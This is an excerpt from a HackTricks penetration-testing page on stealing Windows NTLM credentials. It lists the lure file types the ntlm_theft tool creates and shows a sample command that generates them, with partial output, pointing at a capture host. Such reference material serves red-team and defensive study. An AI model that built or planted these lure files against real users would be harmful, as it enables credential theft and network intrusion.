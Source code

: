 # Places to steal NTLM creds

<details><summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

## Automatic Payloads Creation & Other lists

### [ntlm\_theft](https://github.com/Greenwolf/ntlm\_theft)

This tool will **create several documents/files** that if accessed by the user somehow they will **start a NTLM authentication with the attacker**.

#### ntlm\_theft supports the following attack types:

Browse to Folder Containing:

* .url – via URL field
* .url – via ICONFILE field
* .lnk - via icon\_location field
* .scf – via ICONFILE field (Not Working on Latest Windows)
* autorun.inf via OPEN field (Not Working on Latest Windows)
* desktop.ini - via IconResource field (Not Working on Latest Windows)

Open Document:

* .xml – via Microsoft Word external stylesheet
* .xml – via Microsoft Word includepicture field
* .htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
*   .docx – via Microsoft Word includepicture field

    \-.docx – via Microsoft Word external template

    \-.docx – via Microsoft Word frameset webSettings

    \-.xlsx - via Microsoft Excel external cell

    \-.wax - via Windows Media Player playlist (Better, primary open)

    \-.asx – via Windows Media Player playlist (Better, primary open)

    \-.m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)

    \-.jnlp – via Java external jar

    \-.application – via any Browser (Must be served via a browser downloaded or won’t run)

Open Document and Accept Popup:

* .pdf – via Adobe Acrobat Reader

Click Link in Chat Program:

* .txt – formatted link to paste into Zoom chat

> Example :
>
> ```bash
> # python3 ntlm_theft.py -g all -s 127.0.0.1 -f test
> Created: test/test.scf (BROWSE)
> Created: test/test-(url).url (BROWSE)
> Created: test/test-(icon).url (BROWSE)
> Created: test/test.rtf (OPEN)
> Created: test/test-(stylesheet).xml (OPEN)
> Created: test/test-(fulldocx).xml (OPEN)
> Created: test/test.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
> Created: test/test-(includepicture).docx (OPEN)
> Created: test/test-(remotetemplate).docx (OPEN)
> Created: test/test-(frameset).docx (OPEN)